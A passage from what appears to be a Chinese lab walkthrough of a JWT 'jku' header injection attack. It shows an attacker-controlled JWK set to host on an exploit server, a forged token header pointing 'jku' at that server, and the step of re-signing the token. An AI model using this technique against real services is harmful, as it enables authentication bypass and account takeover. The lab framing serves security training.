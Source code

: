 将他放到`keys`集合里

```json
{
    "keys": [
        {
    "kty": "RSA",
    "e": "AQAB",
    "kid": "1e00189d-3bc9-49a5-9605-03f0df893a5c",
    "n": "jkFNpj5eafWczBE5jRkF4hIzErrMk9o7iYUMcF1DTzS_XkF7NMP-0PIMH4kgNeCMu3UorWsQV3XZZA8KzujVEjKxRBPMDsfQh5FKpqUl9QhFtlBkw73Ej1DCH3xtDZMKiPNTMOkWbe811c_UJ9a9Hx_JkXhCvMruOIRl9mKwTt-teKRquGLuvmRxiSvPxnL2LPU5Pf4mJhcGYEsEobI6kjlIXbeQNr1esFmk3IvBrMGEXj_xpWwWfQ-iiP8Asiur5yAbHNMk7gLyEGY7ajwtlUH0XI2k4aECC3Izx6FGZuF5lvSCUAxnHWD6zPT7jXX6GIWStjY0trnpUKr4SZCmKQ"
}
    ]
}
```

然后将的上面的内容放到服务器上

![image-20250519173753853](./img/image-20250519173753853.png)

设置头部添加`JKU`参数

```json
{
    "kid": "1e00189d-3bc9-49a5-9605-03f0df893a5c",
    "alg": "RS256",
    "jku": "https://exploit-0ac0004c046975f58112104101d40092.exploit-server.net/exploit"
}
```

然后用这个公钥重新签名
